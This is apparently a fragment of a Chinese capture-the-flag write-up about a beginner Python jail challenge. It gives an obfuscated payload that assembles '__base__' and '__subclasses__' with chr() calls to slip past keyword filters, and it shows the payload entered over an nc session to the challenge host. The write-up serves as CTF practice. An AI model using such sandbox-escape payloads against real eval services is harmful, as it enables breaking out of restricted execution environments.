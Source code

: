 ```
getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()
```
得到所有子类
```
┌──(root㉿dmw)-[~]
└─# nc node5.anna.nssctf.cn 28576

  _                _                           _       _ _   _                _ __ 
 | |              (_)                         (_)     (_) | | |              | /_ |
 | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
 | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
 | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
 |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
              __/ |                          _/ |                                  
             |___/                          |__/                                                                                      

Welcome to the python jail
Let's have an beginner jail of calc
Enter your expression and I will evaluate it for you.
> getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()
```